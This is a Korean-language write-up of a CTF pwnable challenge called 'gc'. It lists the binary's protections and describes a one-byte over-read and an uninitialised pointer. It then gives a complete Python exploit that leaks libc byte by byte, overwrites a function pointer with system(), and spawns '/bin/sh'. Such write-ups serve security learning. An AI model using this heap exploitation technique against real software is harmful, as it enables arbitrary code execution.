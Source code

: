 GC (Solver : 6)
=============

### 1. Introduction

| RELRO    | STACK CANARY    | NX         | PIE         | RPATH    | RUNPATH    | FILE |
|----------|-----------------|------------|-------------|----------|------------|------|
| No RELRO | No canary found | NX enabled | PIE enabled | No RPATH | No RUNPATH | gc   | 

이런 포너블을 많이 풀어야 실력이 늘듯하다.

### 2. Vulnerability
- Box에 달린 tag를 출력할 때 설정한 크기보다 1바이트 더 출력한다.

```c
  else
    v1 = *((i & 0xFFFFFFFFFFFFFFFCLL) + 16);
  v1(v2, box->tag_string, box->tag_len, 0LL);
  if ( *(i & 0xFFFFFFFFFFFFFFFCLL) == i )
  {
    work_line = 0LL;
  }
  else
  {                                             // Workline is not initialize.
    *(*((i & 0xFFFFFFFFFFFFFFFCLL) + 8) & 0xFFFFFFFFFFFFFFFCLL) = *(i & 0xFFFFFFFFFFFFFFFCLL);// *(*(i + 8)) = *(i)
    *((*(i & 0xFFFFFFFFFFFFFFFCLL) & 0xFFFFFFFFFFFFFFFCLL) + 8) = *((i & 0xFFFFFFFFFFFFFFFCLL) + 8);//  *(*(i) + 8) = *(i + 8)
  }
  if ( storage_list )
  {
```
- store하려는 i(box)에 있는 주소가 i와 같지 않다면 else문으로 가서 work_line을 초기화하지 않는다.

### Exploit
copy gc를 이용하여 memory leak을 할 수 있는데, 그 이유는 gc를 하는 과정에서 메모리를 초기화하지 않기 때문이다. 그래서 바로 leak을 할 수 있고, exploit의 경우
work_line을 초기화하지 않는것을 이용하여 work_line과 storage를 같은 메모리를 가르키게 만들고 storage가 구조체에서 함수를 호출하는것을 이용하여 exploit하면 된다.

```python
from ntpwn import *

s = process('./gc')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# local
b = BP(s)
b.bp('tracemalloc on')
#b.bpie64(0x12f0) # egg alloc
#b.bpie64(0x15a0) # box_alloc
#b.bpie64(0x1469) # box_alloc -> egg
#b.bpie64(0x21a0) # gc-fun1
#b.bpie64(0x1dc0) # gc
#b.bpie64(0x1001) # print_storage
#b.bp('b *system')
b.bp('c')
b.done()

def getegg():
	s.sendlineafter('Command:\n','1')

def box(size):
	s.sendlineafter('Command:\n','2')
	s.sendlineafter(':\n',size)

def storebox():
	s.sendlineafter('Command:\n','3')

def storetag(length,string):
	s.sendlineafter('Command:\n','3')
	s.sendlineafter('length:\n',length)
	s.sendlineafter('string:\n',string)

def getbox(idx):
	s.sendlineafter('Command:\n','4')
	s.sendlineafter(':\n',idx)

def deliver(idx):
	s.sendlineafter('Command:\n','5')
	s.sendlineafter(':\n',idx)

def viewlist():
	s.sendlineafter('Command:\n','6')

def settag(length,string):
	s.sendlineafter('Command:\n','6')
	s.sendlineafter('length:\n',length)
	s.sendlineafter('string:\n',string)

libc = ''
for i in range(6):
	for j in range(3):
		getegg()

	box('3')
	storetag(str(0x300),'A')
	deliver('0')

	box('0')
	storetag(str(0x100000 - 0x40),'A')
	deliver('0')

	box('0')
	storetag(str(8),'A' * i)
	deliver('0')
	s.recvuntil('$>' + 'A' * i)
	libc += s.recv(1)

mmap = u64(libc + "\x00" * 2)
libc_base = mmap - 14106675
system = libc_base + l.symbols['system']
log.info("MMAP LEAK : " + hex(mmap))
log.info("LIBC_BASE LEAK : " + hex(libc_base))

# padding
payload = p64(0) * 15 + p64(system) + p64((1 << 64) - 0x20)
box('0')
storetag(str(0x100000 - 0x40),'A')
deliver('0')
box('0')
storetag(str(0x100000 - 0x40),payload)
deliver('0')

# overwrite
box(str(131072-10))
getegg()
box(str(0))
storetag(str(0x18),'/bin/sh\x00'.ljust(0x18,'A'))
deliver('0')
storetag('1','A')

getegg()
viewlist()
s.recvuntil('65):')


s.interactive()
```



